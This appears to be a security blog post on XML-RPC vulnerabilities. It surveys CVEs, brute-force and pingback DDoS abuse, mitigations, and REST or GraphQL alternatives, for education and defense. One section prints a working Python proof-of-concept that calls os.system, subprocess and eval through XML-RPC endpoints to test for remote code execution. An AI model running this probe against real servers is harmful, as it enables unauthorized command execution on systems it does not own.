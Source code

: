 ```yaml
---
title: "XML-RPC Security Vulnerabilities Analysis and Mitigation Strategies"
date: 2025-03-28
draft: false
tags: ["XML-RPC", "Security", "RCE", "Exploit"]
categories: ["Cybersecurity"]
---
```



**XML-RPC Security Series:**

- [Series 1 - XML-RPC Security Vulnerabilities Analysis and Mitigation Strategies](https://windshock.github.io/en/post/2025-03-28-xml-rpc-security-vulnerabilities-analysis-and-mitigation-strategies/)
- [Series 2 - CVE-2019-17570: Apache XML-RPC Exploit](https://windshock.github.io/en/post/2025-04-24-cve-2019-17570-apache-xmlrpc/)
- [Series 3 - Exception Serialization Patterns in OpenStack Nova: Theoretical RCE Risks and Lessons Learned](https://windshock.github.io/en/post/2025-05-30-rce-via-exception-serialization-in-openstack-nova/)

![XML-RPC background](/images/post/xmlrpc-security.webp)

## Summary

- **Overview of XML-RPC Vulnerabilities:** As a lightweight remote call protocol for inter-system communication, XML-RPC is exposed to various threats such as RCE, XXE, DDoS, and privilege escalation.
- **Notable Cases:** NodeBB (CVE-2023-43187), Apache OFBiz (CVE-2020-9496), PHP XML-RPC (CVE-2005-1921), etc.
- **Real-World Use Cases:** In addition to WordPress, Bugzilla, ManageEngine, and Apache OFBiz, XML-RPC is still used in some legacy systems.
- **Mitigation Strategies:** Disabling XML-RPC, enhancing input validation, reinforcing authentication systems, applying up-to-date security patches, implementing access control, and deploying WAFs.

## What is XML-RPC?

**XML-RPC (XML Remote Procedure Call)** is a remote procedure call protocol that uses XML as its data format and HTTP as its transport mechanism. Proposed jointly by Dave Winer and Microsoft in 1998, it was designed to simplify cross-platform communication.

### Basic Principles

- The client sends a request in XML format, and the server responds in XML.
- It can easily pass through firewalls using standard HTTP(S).

### History of XML-RPC

XML-RPC was widely used in early web services and implemented in various languages including Perl, Java, Python, C, and PHP. Although it later evolved into SOAP, it is still used in some environments due to its simplicity.

### Current Status of XML-RPC

Its use is declining with the advent of newer technologies such as RESTful APIs and gRPC. WordPress is transitioning to REST API, and XML-RPC is now mostly limited to legacy systems.

## Vulnerability Analysis

### 1. XML Injection & Remote Code Execution (RCE)

- **NodeBB (CVE-2023-43187):** RCE possible due to lack of XML input validation
- **Apache OFBiz (CVE-2020-9496):** RCE via Java deserialization
- **PHP XML-RPC (CVE-2005-1921):** RCE through misuse of `eval()`

### 2. XXE (XML External Entity)

- **Apache XML-RPC (CVE-2016-5002):** Local file exposure and SSRF possible due to missing external entity deactivation

### 3. DDoS and Brute Force Attacks

- **system.multicall:** Automates brute force attacks
- **pingback.ping:** Facilitates DDoS reflection attacks

### 4. Authentication Bypass & Privilege Escalation

- **WordPress (CVE-2020-28036):** Authentication bypass via XML-RPC

## Real-World Attack Cases

- **SonicWall Report (2018):** Over 100,000 XML-RPC attacks detected
- **WPbrutebot:** XML-RPC-based brute-force attack tool
- **Pingback DDoS:** Large-scale reflection attacks using XML-RPC

## XML-RPC Exploit Example

The following is a Python-based PoC code to detect RCE vulnerabilities in XML-RPC and its execution screen:

![xmlrpc poc code output](/images/post/xmlrpc-rce.webp)

```python
import xmlrpc.client
import ssl
import http.client

candidate_methods = [
    "os.system",
    "commands.getoutput",
    "subprocess.check_output",
]

candidate_methods_eval = [
    "__builtin__.eval",
    "builtins.eval",
]

rpc_urls = [
    "https://xxx.com/cgi-bin/rpc.cgi",
]

context = ssl._create_unverified_context()

class UnverifiedTransport(xmlrpc.client.SafeTransport):
    def make_connection(self, host):
        return http.client.HTTPSConnection(host, context=context)

for rpc_url in rpc_urls:
    print(f"[+] Scanning target: {rpc_url}")
    client = xmlrpc.client.ServerProxy(rpc_url, transport=UnverifiedTransport())

    for method in candidate_methods:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            print(f"[>] Trying {method}('id')...")
            result = func('id')
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")

    for method in candidate_methods_eval:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            payload = '__import__("commands").getoutput("id")'
            print(f"[>] Trying {method}('{payload}')...")
            result = func(payload)
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")
```

> ⚠️ Use this script **only in authorized environments**.

## Major Services Using XML-RPC

| System         | Usage Examples                           |
| -------------- | ----------------------------------------- |
| WordPress      | Posting, comments, pingbacks (moving to REST) |
| Bugzilla       | Bug submission and update API            |
| ManageEngine   | User account and password management     |
| Apache OFBiz   | ERP integration API                      |

## Security Hardening Measures

- Disable XML-RPC (via .htaccess, web server config, plugins)
- Enhance input validation (regex-based)
- Apply XXE prevention settings
- Use API keys, OAuth, JWT authentication
- Restrict access by IP
- Deploy Web Application Firewall (WAF)
- Monitor logs and conduct regular vulnerability assessments

## Modern Alternatives Comparison

| Criteria    | XML-RPC | REST     | GraphQL   |
| ----------- | -------- | -------- | --------- |
| Data Format | XML      | JSON     | JSON      |
| Structure   | Method-based | Resource-based | Query-based |
| Scalability | Low      | High     | Very High |
| Security    | Low      | Medium+  | Medium+   |
| Strengths   | Simple implementation | Cacheable | Minimized data queries |

## Conclusion & Recommendations

- **Avoid using XML-RPC due to high security risks.**
- **If unavoidable, apply strong authentication and access control.**
- **Actively consider migrating to REST or GraphQL.**

## Reference Links

- [XML-RPC - Wikipedia](https://ko.wikipedia.org/wiki/XML-RPC)
- [CVE-2023-43187 - NodeBB XML Injection](https://nvd.nist.gov/vuln/detail/CVE-2023-43187)
- [CVE-2020-9496 - Apache OFBiz RCE](https://nvd.nist.gov/vuln/detail/CVE-2020-9496)
- [CVE-2005-1921 - PHP XMLRPC Code Injection](https://nvd.nist.gov/vuln/detail/CVE-2005-1921)
- [CVE-2016-5002 - Apache XML-RPC XXE](https://nvd.nist.gov/vuln/detail/CVE-2016-5002)
- [WordPress XML-RPC Security Guide (SolidWP)](https://solidwp.com/blog/xmlrpc-php/)
- [SonicWall XML-RPC Attack Analysis Report](https://www.sonicwall.com/blog/major-attempt-to-exploit-xml-rpc-remote-code-injection-vulnerability-is-observed)


